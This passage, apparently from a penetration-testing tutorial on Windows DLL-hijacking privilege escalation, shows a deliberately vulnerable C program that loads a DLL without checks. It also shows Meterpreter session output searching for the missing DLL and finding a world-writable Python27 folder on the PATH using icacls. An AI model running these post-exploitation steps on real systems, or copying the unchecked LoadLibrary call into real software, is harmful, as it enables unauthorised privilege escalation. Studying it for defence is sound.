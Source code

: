```
In this scenario Vulnerable.exe process have dll hijacking vulnerability. Ok I confess, actually this Vulnerable.exe is a simple code that loads a dll without doing some checks:
```c
#include "stdafx.h"
#include "windows.h"
void _tmain(int argc, _TCHAR* argv[]) 
{ 
  LoadLibrary(L"hijackable.dll"); 
}
```
Let’s check if hijackable.dll exists on the machine:
```
meterpreter > search -f hijackable.dll
No files matching your search were found.
meterpreter > 
```
It seems that dll does not exist on the machine. But we cannot sure at this point, maybe it exists in a directory that we don’t have permission to view. Don’t forget we still have low privileges. 🙁

The next step is checking possible weak folder permissions. I usually check if a software gets installed in the root directory such as Python. Because if a folder created in the root directory, it is writable for all authenticated users by default. And softwares like Python, Ruby, Perl etc. usually added to PATH variable.

Remember, Windows checks the directories that are listed in the PATH environment variable!
```
meterpreter > ls
Listing: C:\
============
Mode              Size        Type  Last modified              Name
----              ----        ----  -------------              ----
40777/rwxrwxrwx   0           dir   2017-01-18 05:59:21 -0500  $Recycle.Bin
100666/rw-rw-rw-  1           fil   2013-06-18 08:18:29 -0400  BOOTNXT
100444/r--r--r--  8192        fil   2013-09-11 14:11:46 -0400  BOOTSECT.BAK
40777/rwxrwxrwx   0           dir   2016-11-19 15:49:57 -0500  Boot
40777/rwxrwxrwx   0           dir   2013-08-22 10:45:52 -0400  Documents and Settings
40555/r-xr-xr-x   0           dir   2016-07-27 07:12:06 -0400  MSOCache
40777/rwxrwxrwx   0           dir   2013-08-22 11:22:35 -0400  PerfLogs
40555/r-xr-xr-x   0           dir   2017-01-18 04:05:59 -0500  Program Files
40555/r-xr-xr-x   0           dir   2017-01-18 04:07:04 -0500  Program Files (x86)
40777/rwxrwxrwx   0           dir   2017-01-18 04:05:28 -0500  ProgramData
40777/rwxrwxrwx   0           dir   2017-01-18 09:51:36 -0500  Python27
40777/rwxrwxrwx   0           dir   2013-09-11 13:15:09 -0400  Recovery
40777/rwxrwxrwx   0           dir   2017-01-18 03:52:51 -0500  System Volume Information
40555/r-xr-xr-x   0           dir   2017-01-04 21:51:12 -0500  Users
40777/rwxrwxrwx   0           dir   2017-01-18 03:53:05 -0500  Windows
100444/r--r--r--  404250      fil   2014-06-14 06:46:09 -0400  bootmgr
100666/rw-rw-rw-  1409286144  fil   2017-01-18 13:53:34 -0500  pagefile.sys
100666/rw-rw-rw-  16777216    fil   2017-01-18 13:53:34 -0500  swapfile.sys
```
Just as I thought, Python was installed. Let’s check permissions:
```
meterpreter > shell
Process 3900 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\>icacls C:\Python27
icacls C:\Python27
C:\Python27 BUILTIN\Administrators:(I)(OI)(CI)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            BUILTIN\Users:(I)(OI)(CI)(RX)
            NT AUTHORITY\Authenticated Users:(I)(M)
            NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files
```